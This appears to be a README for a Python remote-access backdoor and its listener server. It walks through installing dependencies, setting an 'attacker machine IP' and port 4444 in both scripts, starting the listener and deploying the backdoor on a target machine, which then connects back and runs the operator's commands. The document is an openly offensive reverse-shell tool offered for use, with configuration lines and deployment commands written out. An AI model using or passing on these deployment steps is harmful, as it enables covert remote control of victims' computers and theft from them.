 This project contains a Python backdoor and server script that work together to establish a remote connection between a target machine and an operator. The backdoor runs on the target, connecting back to the server, which listens for incoming connections. 
Once connected, the server can send commands to the backdoor, which executes them on the target and returns the output.

Instructions:

1. Install Python 3
  
2. Installer termcolor: pip install termcolor

3. Configure the Server:
  Open server.py and set:
    IP address: The server’s local or public IP.
    Port: An open TCP port (e.g., 4444).
      Example in code:
        host = "192.168.1.10"  # your attacker machine IP
        port = 4444

4. Configure the Backdoor:
   In backdoor.py, set:
    The server IP to point to your attacker machine. The port to match the server port.
      Example:
        server_ip = "192.168.1.10"
        server_port = 4444

5. Run the Server: python3 server.py

6. Deploy the Backdoor:
   Run backdoor.py on the target machine:
    python3 backdoor.py


Once it connects, the server will show: [+] Connection established with <target_ip>

